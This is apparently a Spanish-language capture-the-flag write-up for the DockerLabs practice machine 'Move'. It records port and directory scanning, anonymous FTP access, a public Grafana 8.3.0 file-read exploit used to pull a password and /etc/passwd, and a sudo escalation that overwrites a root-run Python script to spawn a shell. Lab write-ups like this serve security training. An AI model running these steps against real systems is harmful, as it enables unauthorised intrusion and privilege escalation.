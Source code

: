 # 📘 Informe Técnico - Máquina: *Move*

* **Nivel:** Fácil
* **Propósito:** Práctica de análisis de servicios expuestos, reconocimiento de rutas sensibles y escalada de privilegios.
* **Objetivo:** Obtener acceso root a través de la explotación de una configuración sudo insegura.

---

![Logo](Imágenes/2025-05-15_16-55.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Posteriormente lo descomprimimos con el siguiente comando:

```bash
unzip move.zip
```

Luego desplegamos la máquina vulnerable con:

```bash
sudo bash auto_deploy.sh move.tar
```

![Desplegar](Imágenes/Capturas.png)

Verificamos que el contenedor esté activo mediante un ping:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap Puertos](Imágenes/Capturas_2.png)

Luego usamos `extractPorts` para filtrar los puertos abiertos y lanzamos un escaneo más detallado:

```bash
nmap -sCV -p80,22,21 172.17.0.3 -oG target.txt
```

![Nmap detallado](Imágenes/Capturas_3.png)

### Resultados Destacados:

* **Puerto 80**: Servicio HTTP (servidor web Apache).
* **Puerto 22**: Servicio SSH activo.
* **Puerto 21**: Servicio FTP con acceso anónimo habilitado.

---

## 🌐 Análisis Web

Accedimos al sitio web [http://172.17.0.3/](http://172.17.0.3/) y se muestra la página por defecto de Apache2.

![Pagina](Imágenes/Capturas_4.png)

Realizamos un escaneo de directorios con `gobuster`:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

![Fuzzing](Imágenes/Capturas_5.png)

Se descubrió el archivo **maintenance.html**, el cual revela una ruta interna:

```
/tmp/pass.txt
```

![Fuzzing](Imágenes/Capturas_6.png)

---

## 📁 Acceso al Servicio FTP

Accedemos al servicio FTP con el usuario `anonymous`. Al pedir contraseña, simplemente presionamos **Enter**.

![Fuzzing](Imágenes/Capturas_7.png)

Ejecutamos `ls -la` y navegamos hasta el directorio `mantenimiento`, donde encontramos un archivo llamado `database.kdbx`. Lo descargamos con:

```bash
get database.kdbx
```

![Fuzzing](Imágenes/Capturas_8.png)

---

## 📡 Detección de Servicios Adicionales

Explorando más puertos, descubrimos que el **puerto 3000** está abierto.

![Open](Imágenes/Capturas_9.png)

Accedemos a **[http://172.17.0.3:3000/login](http://172.17.0.3:3000/login)** y encontramos una instancia de **Grafana**. En la parte inferior izquierda se muestra la versión:

```
Grafana v8.3.0 (914fcedb7)
```

![Registro](Imágenes/Capturas_10.png)

---

## 💥 Explotación de Grafana

Buscamos vulnerabilidades con `searchsploit`:

```bash
searchsploit Grafana 8.3.0
```

Identificamos el exploit:

```
Grafana 8.3.0 - LFI/RCE (Python) → multiple/webapps/50581.py
```

Lo descargamos y ejecutamos:

```bash
searchsploit -m multiple/webapps/50581.py
python3 50581.py -H http://172.17.0.3:3000
```

Usamos el exploit para leer `/tmp/pass.txt`, y obtenemos una contraseña:

```
t9sH76gpQ82UFeZ3GXZS
```

![contraseña](Imágenes/Capturas_11.png)

---

## 👤 Enumeración de Usuarios

Ejecutamos el comando `cat /etc/passwd` desde el exploit y encontramos un posible usuario válido:

```
freddy
```

![Usuarios](Imágenes/Capturas_12.png)

---

## 🔐 Autenticación Válida y Escalada de Privilegios

Probamos las credenciales encontradas (`freddy:t9sH76gpQ82UFeZ3GXZS`) en el servicio FTP y accedemos exitosamente.

Dentro del directorio `/opt` encontramos el archivo `maintenance.py`, el cual descargamos con:

```bash
get maintenance.py
```

El archivo solo contenía:

```python
print("Server under beta testing")
```
Procedo a usar SSH si puedo hacer alguna escalada.

![py](Imágenes/Capturas_13.png)

## 🔐 Explotacion del servicio SSH

Ya conectados como el usuario `freddy`, ejecutamos:

```bash
sudo -l
```

Se nos muestra la siguiente política de sudo:

```
(ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Esto indica que podemos ejecutar **ese script como root sin contraseña**.

---

## 🚀 Escalada Final a Root

Eliminamos el script original y creamos uno malicioso:

```bash
rm /opt/maintenance.py
echo 'import os; os.system("/bin/bash")' > /opt/maintenance.py
chmod +x /opt/maintenance.py
sudo /usr/bin/python3 /opt/maintenance.py
```

Esto nos otorga una **shell con privilegios root**.

![root](Imágenes/Capturas_14.png)

---

## 📝 Nota Final

Es posible que existan otras formas de comprometer esta máquina, pero esta fue la ruta explotada a partir de la información descubierta.
En el sercio de SSH me ubique en el directorio /opt/





